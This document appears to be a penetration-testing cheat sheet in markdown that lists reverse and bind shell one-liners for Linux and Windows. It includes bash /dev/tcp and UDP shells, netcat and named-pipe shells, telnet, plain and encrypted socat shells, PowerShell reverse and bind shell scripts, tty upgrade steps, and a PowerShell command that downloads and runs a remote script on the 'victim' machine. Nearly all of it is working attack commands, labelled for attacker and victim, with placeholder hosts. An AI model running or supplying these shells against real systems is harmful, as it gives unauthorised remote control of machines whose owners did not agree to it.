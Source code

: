 ## Linux fully interactive tty

```bash
python -c 'import pty; pty.spawn("/bin/bash")' || python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo
fg
reset
export SHELL=/bin/bash && export TERM=xterm-256color
# open up a new terminal and run the below to get the stty size command to paste
size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "stty rows $rows columns $cols"
```

## bash: normal shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
```
## bash: non-blocking shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1 &
```
## bash: using `exec` 
```bash
exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done
```
## Bash/Netcat:
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## bash: mkfifo:
```bash
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe
```
## bash: mknod:
```bash
rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
## Bash UDP
```bash
sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1
```
## Telnet
```bash
rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
---
## socat: reverse shell (with forking and address reuse)
### on attacker
```bash
socat -d -d TCP4-LISTEN:<LPORT>,reuseaddr,fork STDOUT
```
### on victim
```bash
socat TCP4:<LHOST>:<LPORT> EXEC:/bin/bash
```
**OR**
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## socat: encrypted reverse shell (with forking and address reuse)
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on attacker machine, listen on a port of your choice
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork STDOUT
```
### step #4: on the victim, send back a bash shell
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0, EXEC:/bin/bash
```

---

## Powershell reverse shell
```powershell
$lhost = '<LHOST>'
$lport = <LPORT>
$client = New-Object System.Net.Sockets.TCPClient($lhost,$lport);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

## Powershell bind shell
```
$lport = <LPORT>
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$lport)
$listener.start()
$client = $listener.AcceptTcpClient()
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
$listener.Stop()
```

## Windows better tty using `rlwrap`
1. install rlwrap using
```bash
apt install rlwrap
```
2. using rlwrap before your standard listener
```bash
rlwrap nc -lvnp <LPORT>
```

## Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
### on attacker machine:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>
```
### on victim machine:
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>
```